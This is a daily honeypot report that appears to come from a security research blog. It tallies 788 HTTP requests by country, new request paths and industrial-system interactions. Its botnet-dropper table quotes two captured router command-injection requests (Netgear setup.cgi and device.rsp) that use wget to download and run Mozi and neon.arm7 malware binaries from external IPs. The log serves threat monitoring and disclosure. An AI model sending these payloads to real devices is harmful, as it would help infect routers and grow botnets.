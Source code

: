 ```yaml
---
title: "Report: 2025-05-23 "
date: 2025-05-23
desciption: "Report: 2025-05-23" 
tags: [repport, daily]
---
```



# Daily Report: 2025-05-23 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 2 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 11 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 788 requests were recorded during the day, originating from 2 different countries, with a peak of 150 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| BR               | Germany            |
| US               | Germany            |
| JP               | Germany            |
| US               | Germany            |
| BR               | Germany            |
| US               | Germany            |
| JP               | Germany            |
| FR               | Germany            |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                                                              |
|:---------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 175.165.85.58  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://175.165.85.58:54082/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                         |
| 176.65.148.236 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20-rf%20neon.arm7%3B%20wget%20http%3A%2F%2F209.141.34.106%2Fdwrioej%2Fneon.arm7%3B%20chmod%20777%20neon.arm7%3B%20.%2Fneon.arm7%20router1 HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                       |
|----:|----------------------:|:--------------------------------------------------------------|
| 119 |                     1 | GET /OdinHttpCall1748010717 HTTP/1.1                          |
| 128 |                     1 | GET /Odin/http/call1748010717 HTTP/1.1                        |
| 130 |                     1 | GET /odinhttpcall1748010717 HTTP/1.1                          |
| 142 |                     1 | GET /odinhttpcall1748036419 HTTP/1.1                          |
| 143 |                     1 | CONNECT p-scanner.research.netd.cs.tu-dresden.de:443 HTTP/1.1 |
| 144 |                     1 | GET /Odin/http/call1748036419 HTTP/1.1                        |
| 145 |                     1 | GET /OdinHttpCall1748036419 HTTP/1.1                          |
| 154 |                     1 | GET http://141.76.94.18:80/pscan HTTP/1.1                     |
| 167 |                     1 | GET /BtVP HTTP/1.1                                            |
| 179 |                     1 | GET /h6Qn HTTP/1.1                                            |
| 253 |                     1 | GET /photo HTTP/1.1                                           |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   150 | US                 |
|  1 |                   108 | BG                 |
|  2 |                    95 | DE                 |
|  3 |                    67 | NL                 |
|  4 |                    65 | CH                 |
|  5 |                    51 | PL                 |
|  6 |                    47 | ID                 |
|  7 |                    23 | GB                 |
|  8 |                    15 | FR                 |
|  9 |                    15 | CN                 |
| 10 |                    15 | IN                 |
| 11 |                    14 | AZ                 |
| 12 |                    13 | RU                 |
| 13 |                    12 | AU                 |
| 14 |                    12 | SC                 |
| 15 |                     8 | LT                 |
| 16 |                     8 | AO                 |
| 17 |                     7 | IL                 |
| 18 |                     7 | GH                 |
| 19 |                     6 | VN                 |
| 20 |                     6 | SG                 |
| 21 |                     4 | BE                 |
| 22 |                     4 | PT                 |
| 23 |                     4 | JP                 |
| 24 |                     4 | BR                 |
| 25 |                     3 | NG                 |
| 26 |                     3 | KR                 |
| 27 |                     3 | IR                 |
| 28 |                     2 | ZM                 |
| 29 |                     2 | UA                 |
| 30 |                     2 | HK                 |
| 31 |                     2 | TW                 |
| 32 |                     2 | IE                 |
| 33 |                     1 | HU                 |
| 34 |                     1 | AR                 |
| 35 |                     1 | SK                 |
| 36 |                     1 | RO                 |
| 37 |                     1 | TR                 |
| 38 |                     1 | CA                 |
| 39 |                     1 | AE                 |
| 40 |                     1 | ES                 |
| 41 |                     1 | SE                 |
